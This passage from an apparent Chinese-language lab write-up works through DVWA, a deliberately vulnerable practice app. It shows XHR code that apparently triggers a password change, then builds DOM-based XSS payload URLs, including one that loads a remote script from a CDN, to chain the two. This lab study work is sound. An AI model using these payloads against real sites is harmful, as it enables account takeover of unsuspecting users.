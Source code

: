 ```jsx
    xhrUpdatePwd.open('GET', url, true)
    xhrUpdatePwd.onreadystatechange = function () {
      if (xhrUpdatePwd.readyState === XMLHttpRequest.DONE && xhrUpdatePwd.status === 200) {
        console.log(xhrUpdatePwd.responseText)
      }
    }
    xhrUpdatePwd.send()
  }
}
xhr.send()
```

執行起來沒問題
![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/0d75a702-f1ed-4985-bc30-24d568e86694/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070128Z&X-Amz-Expires=86400&X-Amz-Signature=163f7a3bea8acba00e4b285757a98d186c23f51e405f242e6f1a66b790b89466&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

```jsx
<pre>Password Changed.</pre>
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/8b767c9a-45a6-41f1-b3a9-4ef5e50b5a77/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220226%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220226T070144Z&X-Amz-Expires=86400&X-Amz-Signature=ffb91171a009be65e6c9cf80a37302e3ae83e211611b7c572310266bfdcbf99d&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

### 到其他頁面測試 XSS payload

先到之前 DOM based XSS 頁面

```html
Go to http://dvwa.localtest/vulnerabilities/xss_d/
```

複習一下 XSS

```html
?default=English#<script>alert(123)</script>
```

```html
http://dvwa.localtest/vulnerabilities/xss_d/?default=English#<script>alert(123)</script>
```

or

```html
?default=English<script>alert(123)</script>&default=English#
```

```
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%3Econsole.log(123)%3C/script%3E&default=English#
```

將剛剛準備好的 script 整合進 XSS

先測試一下是否能遠端載入 js file，我們先隨便從任何一個 CDN 載入一個函式庫看看

```
https://unpkg.com/axios@0.2.1/dist/axios.min.js
```

```
http://dvwa.localtest/vulnerabilities/xss_d/?default=English%3Cscript%20src=%22https://unpkg.com/axios@0.2.1/dist/axios.min.js%22%3Econsole.log(123)%3C/script%3E&default=English#
```
